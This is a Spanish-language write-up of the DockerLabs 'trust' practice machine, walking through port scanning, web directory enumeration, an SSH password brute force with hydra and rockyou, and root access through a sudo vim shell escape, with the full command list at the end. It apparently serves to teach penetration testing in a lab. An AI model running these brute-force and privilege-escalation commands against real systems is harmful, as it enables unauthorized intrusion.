





# DockerLabs - trust

## Resumen

* **Dificultad:** Very Easy
* **Técnicas:** Web enumeration (gobuster), SSH brute-forcing, escalada de privilegios vía sudo (vim)
* **Fecha:** 2026-04-16

---

## Info

|           |                             |
| --------- | --------------------------- |
| IP        | 172.18.0.2                  |
| OS        | Debian (Docker)             |
| Servicios | 22/tcp (SSH), 80/tcp (HTTP) |

---

## Reconocimiento

### Escaneo de puertos

```bash
nmap -p- --open --min-rate 5000 -sV -Pn -n 172.18.0.2
```

### Resultados

| Puerto | Servicio | Versión              |
| ------ | -------- | -------------------- |
| 22/tcp | SSH      | OpenSSH 9.2p1 Debian |
| 80/tcp | HTTP     | Apache 2.4.57        |

Evidencia:



---

## Enumeración

### Fuerza bruta de directorios

```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php,txt
```

### Hallazgos

* `/secret.php`

Evidencia:



---

### Análisis del endpoint

Accediendo a:

```
http://172.18.0.2/secret.php
```

Se observa:

```
Hola Mario, esta web no se puede hackear.
```

Esto permite identificar un posible usuario válido: **mario**

Evidencia:



---

## Explotación

### Ataque de fuerza bruta SSH

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

### Credenciales obtenidas

* Usuario: `mario`
* Contraseña: `chocolate`

Evidencia:



---

## Acceso inicial

```bash
ssh mario@172.18.0.2
```

Evidencia:



---

## Escalada de privilegios

### Enumeración de sudo

```bash
sudo -l
```

Resultado:

```
(ALL) /usr/bin/vim
```

---

### Explotación

```bash
sudo vim -c ':!/bin/sh'
```

Verificación:

```bash
whoami
# root
```

---

## Flag

No hay flag en esta máquina — el objetivo es obtener acceso root.

---

## Lecciones aprendidas

1. La enumeración web puede revelar información sensible (usuarios)
2. Credenciales débiles permiten ataques de fuerza bruta exitosos
3. Siempre revisar permisos con `sudo -l`
4. Herramientas como `vim` pueden ser usadas para escalar privilegios

---

## Comandos utilizados

```bash
# Reconocimiento
nmap -p- --open --min-rate 5000 -sV -Pn -n 172.18.0.2

# Enumeración
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php,txt

# Explotación
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2

# Acceso
ssh mario@172.18.0.2

# Escalada
sudo -l
sudo vim -c ':!/bin/sh'
```
